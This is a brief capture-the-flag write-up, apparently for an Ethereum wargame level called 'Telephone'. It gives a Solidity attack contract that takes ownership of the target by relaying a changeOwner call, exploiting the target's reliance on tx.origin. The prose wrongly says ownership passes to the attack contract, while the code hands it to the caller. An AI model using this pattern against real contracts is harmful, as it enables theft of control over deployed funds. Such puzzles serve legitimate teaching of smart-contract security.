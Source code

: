 Run the `attack()` function in `Attack.sol` which changes the owner to the `Attack.sol` smart contract.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface ITelephone {
  function changeOwner(address _owner) external;
}

contract Attack{
  function attack(address _telephoneAddr) public {
    ITelephone(_telephoneAddr).changeOwner(msg.sender);
  }
}
```

It works on the principle that `tx.origin` is not same as `msg.sender` .The `tx.origin` is the initial Externally owned account which creates the original transaction whereas `msg.sender` could be a smart contract or EOA.

